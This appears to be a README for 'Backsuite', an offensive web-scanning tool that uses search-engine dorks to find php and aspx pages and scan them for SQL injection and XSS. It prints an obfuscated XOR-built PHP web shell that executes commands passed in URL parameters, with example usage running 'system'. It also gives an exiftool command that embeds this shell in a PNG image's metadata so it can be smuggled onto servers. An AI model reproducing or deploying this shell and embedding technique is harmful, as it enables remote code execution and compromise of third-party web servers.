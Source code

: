  # Backsuite
 
 <ul>
  <li>[ &#x1F608;  ] Dorks with : google.com / yahoo.com / bing.com</li>
  <li>[ &#x1F52D;  ] Scope ending files : <b>php</b> / <b>aspx</b></li>
  <li>[ &#x1F489;  ] Scan : SQL Injection </li>
  <li>[ &#x1F4C4;  ] List of Syntax <I><b>[errors]</b></I> to detect an SQL injection  </li>
  <li>[ &#x274C;  ] Xss payloads   </li>
  <li>[ &#x1F50D;  ] SQL injection - Characters   </li>
</ul>


# Use <TARGET>/file.php?_=system&__=ls -la

SHELL = {`<?php $_="{";$_=($_^"<").($_^">;").($_^"/");?><?=${'_'.$_}["_"](${'_'.$_}["__"]);`}

##### Download <img height="33" width="33" src="https://www.google.com/images/branding/googleg/1x/googleg_standard_color_128dp.png"><a href="https://www.google.com/images/branding/googleg/1x/googleg_standard_color_128dp.png">Img<a> 

 `exiftool -Comment='exiftool -Comment="<?php $_="{";$_=($_^"<").($_^">;").($_^"/");?><?=${'_'.$_}["_"](${'_'.$_}["__"]); __halt_compiler();' googleg_standard_color_128dp.png`
<hr>

###### Scope : only view x.php?x=x | and | x.aspx?x=x
`([.]+[aspxh]{3,4}[?]{1,1}[a-zA-Z0-9_-]{1,10}[=]{1,1})` 

###### Scope : only view ALL LINKS x.x?x= | x/x?x | /?x=x
`([?]{1,1}[a-zA-Z0-9\-_=]{1,10})`

###### Scope : only view x.php?x=x | and | x.aspx?x=x | and | x.php/aspx?x
`([.]+[aspxh]{3,4}[a-zA-Z0-9-\_.=?&]{1,50})`

###### Scope : only view x.php/aspx?x=x | x.php/aspx
`([.]+[aspxh]{3,4})`

###### Scope : view all / | x.php/aspx | x.php/aspx?x=x | /?x=x
`([a-z_.-][?-][a-z0-9+$%_.-])?`
